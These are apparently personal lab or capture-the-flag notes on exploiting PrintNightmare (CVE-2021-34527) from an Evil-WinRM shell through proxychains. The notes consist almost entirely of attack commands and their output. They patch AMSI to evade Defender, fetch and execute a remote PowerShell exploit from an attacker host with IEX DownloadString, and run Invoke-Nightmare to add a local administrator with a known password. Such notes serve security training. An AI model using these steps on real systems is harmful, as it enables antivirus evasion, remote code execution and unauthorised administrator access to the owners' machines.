 Hacktricks: https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/printnightmare

PrivEsc Used: https://github.com/JohnHammond/CVE-2021-34527

How to check if spools is running on a windows device
- would have gotten a path doesn't exist error if spools wasnt running
```powershell
*Evil-WinRM* PS C:\Users\joe\Documents> ls \\localhost\pipe\spoolss
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  172.16.1.201:5985  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  172.16.1.201:5985  ...  OK


    Directory: \\localhost\pipe


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
                                                  spoolss
```
```powershell
Evil-WinRM* PS C:\windows\system32> dir
    Directory: C:\windows\system32

-a----        10/11/2020   7:17 PM         799232 spoolsv.exe
```
Evil-WinRM Bypass-4MSI
- must be used everytime with defender
```powershell
*Evil-WinRM* PS C:\Users\joe\Documents> Bypass-4MSI
                                        
Info: Patching 4MSI, please be patient...
                                        
[+] Success!
```
invoke CVE-2021-34527.ps1 PrintNightmare
```powershell
*Evil-WinRM* PS C:\Users\joe\Documents> IEX((New-Object System.Net.WebClient).DownloadString('http://10.10.14.39:8000/CVE-2021-34527.ps1'))

IEX((New-Object System.Net.WebClient).DownloadString('http://10.10.14.39:8000/CVE-2021-34527.ps1'))
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  172.16.1.201:5985  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  172.16.1.201:5985  ...  OK
```
activating invoke-nightmare
```powershell

*Evil-WinRM* PS C:\Users\joe\Documents> Invoke-Nightmare 
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  172.16.1.201:5985  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  172.16.1.201:5985  ...  OK
[+] using default new user: adm1n
[+] using default new password: P@ssw0rd
[+] created payload at C:\Users\joe\AppData\Local\Temp\nightmare.dll
[+] using pDriverPath = "C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_311ad0065d69f772\Amd64\mxdwdrv.dll"
[+] added user  as local administrator
[+] deleting payload from C:\Users\joe\AppData\Local\Temp\nightmare.dll
*Evil-WinRM* PS C:\Users\joe\Documents> net localgroup administrators
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  172.16.1.201:5985  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  172.16.1.201:5985  ...  OK
Alias name     administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members

-------------------------------------------------------------------------------
```